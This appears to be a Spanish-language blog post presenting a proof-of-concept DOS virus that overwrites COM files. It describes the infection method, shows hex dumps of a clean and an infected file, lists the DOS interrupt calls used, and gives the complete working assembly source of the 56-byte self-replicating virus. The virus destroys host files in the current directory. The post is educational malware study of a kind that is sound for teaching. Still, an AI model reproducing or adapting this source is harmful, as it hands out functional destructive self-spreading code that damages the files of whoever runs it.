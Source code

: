 ```yaml
---
categories: [malware, programacion]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```


Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
 más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

![infection](/assets/images/poc-virus-x86dos-com-overwriting/infection.png){:width="350"}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución
![flow](/assets/images/poc-virus-x86dos-com-overwriting/flow.png){:width="350"}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span class="offsetheader">Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span class="offsetcol">0x0000</span>  <span class="hexcol">B4 09 BA 39 01 CD 21 90</span>  <span class="textcol">´.º9.Í!.</span>
<span class="offsetcol">0x0008</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0010</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0018</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0020</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0028</span>  <span class="hexcol">90 90 90 90 90 90 90 90</span>  <span class="textcol">........</span>
<span class="offsetcol">0x0030</span>  <span class="hexcol">90 90 90 90 90 B4 00 CD</span>  <span class="textcol">.....´.Í</span>
<span class="offsetcol">0x0038</span>  <span class="hexcol">21 54 68 69 73 20 69 73</span>  <span class="textcol">!This is</span>
<span class="offsetcol">0x0040</span>  <span class="hexcol">20 61 20 68 6F 73 74 20</span>  <span class="textcol"> a host </span>
<span class="offsetcol">0x0048</span>  <span class="hexcol">66 69 6C 65 21 0D 0A 24</span>  <span class="textcol">file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span class="offsetheader">Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span class="offsetcol">0x0000</span>  <span class="vhexcol">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vtextcol">´N3Éº2.Í</span>
<span class="offsetcol">0x0008</span>  <span class="vhexcol">21 73 08 EB 21 B4 4F CD</span>  <span class="vtextcol">!s.ë!´OÍ</span>
<span class="offsetcol">0x0010</span>  <span class="vhexcol">21 72 1B B4 3D B0 02 BA</span>  <span class="vtextcol">!r.´=°.º</span>
<span class="offsetcol">0x0018</span>  <span class="vhexcol">9E 00 CD 21 8B D8 B4 40</span>  <span class="vtextcol">ž.Í!‹Ø´@</span>
<span class="offsetcol">0x0020</span>  <span class="vhexcol">B9 38 00 BA 00 01 CD 21</span>  <span class="vtextcol">¹8.º..Í!</span>
<span class="offsetcol">0x0028</span>  <span class="vhexcol">B4 3E CD 21 EB DF B4 00</span>  <span class="vtextcol">´>Í!ëß´.</span>
<span class="offsetcol">0x0030</span>  <span class="vhexcol">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vtextcol">Í!*.com.</span>
<span class="offsetcol">0x0038</span>  <span class="hexcol">21 54 68 69 73 20 69 73</span>  <span class="textcol">!This is</span>
<span class="offsetcol">0x0040</span>  <span class="hexcol">20 61 20 68 6F 73 74 20</span>  <span class="textcol"> a host </span>
<span class="offsetcol">0x0048</span>  <span class="hexcol">66 69 6C 65 21 0D 0A 24</span>  <span class="textcol">file!..$</span>
</pre>
<style>
.offsetheader { color:#000000; line-height:200% }
.offsetcol { color:#000000 }
.hexcol { color:#000000 }
.textcol { color:#000000 }
.vhexcol, .vtextcol  { color:#ff0000 }
</style>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;###############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################
                .8086  
                .model  tiny

                assume  cs:virus, ds:virus

      virus     segment byte public 'CODE'

                org     100h

      start:    mov     ah, 4Eh               ; | AH = 4Eh 
                xor     cx, cx                ; | CX = 0, archivos normales
                lea     dx, search_str        ; | DS:DX -> "*.COM"
                int     21h                   ; |_DOS API - Buscar primer archivo

                jnc     infect_file           ; archivo encontrado
                jmp     exit                  ; no hay archivo

  find_next:    mov     ah, 4Fh               ; | AH = 4Fh  
                int     21h                   ; |_DOS API - Buscar siguiente archivo 

                jc      exit                  ; no hay archivo

infect_file:    mov     ah, 3Dh               ; | AH = 3Dh 
                mov     al, 2                 ; | AL = 2, lectura y escritura
                mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
                int     21h                   ; |_DOS API - Abrir archivo existente

                mov     bx, ax                ; | BX = handle del archivo 
                mov     ah, 40h               ; | AH = 40h
                mov     cx, virus_size        ; | CX = tamaño del virus
                lea     dx, start             ; | DS:DX -> inicio del código viral
                int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

                mov     ah, 3Eh               ; | AH = 3Eh 
                int     21h                   ; |_DOS API - Cerrar archivo

                jmp     find_next             ; buscar siguiente

      exit:     mov     ah, 00h               ; | AH = 00h
                int     21h                   ; |_DOS API - Retornar a DOS

  search_str    db      "*.com", 00h          ; nombre comodín de búsqueda
  virus_size    equ     ($ - start)           ; tamaño del virus

       virus    ends
                end     start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 